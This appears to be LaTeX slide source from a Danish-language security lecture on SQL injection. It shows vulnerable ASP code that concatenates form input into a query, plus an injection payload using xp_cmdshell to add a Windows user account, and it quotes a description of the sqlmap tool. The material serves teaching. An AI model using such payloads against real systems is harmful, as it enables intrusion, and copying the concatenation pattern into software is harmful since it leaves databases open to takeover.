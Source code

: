 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list1}
\item SQL Injection FAQ
:
\item \begin{alltt}\small
Set myRecordset = myConnection.execute
("SELECT * FROM myTable
WHERE someText ='" & request.form("inputdata") & "'")
med input: ' exec master..xp_cmdshell 'net user test testpass /ADD' --
\end{alltt}
\item modtager og udfører serveren:
\item \begin{alltt}
SELECT * FROM myTable
WHERE someText ='' exec master..xp_cmdshell
'net user test testpass /ADD'--'
\end{alltt}
\item -- er kommentar i SQL
\item Derefter er det kun platformen, OS, og rettighederne der afgør problemets omfang
\end{list1}

\centerline{Dette er den klassiske SQL injection mod Windows, fra ~2000}




\begin{quote}\small
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

Features
\end{quote}

\begin{list1}
\item Automatic SQL injection and database takeover tool
\end{list1}




Not a complete list!

Source: 

\end{document}
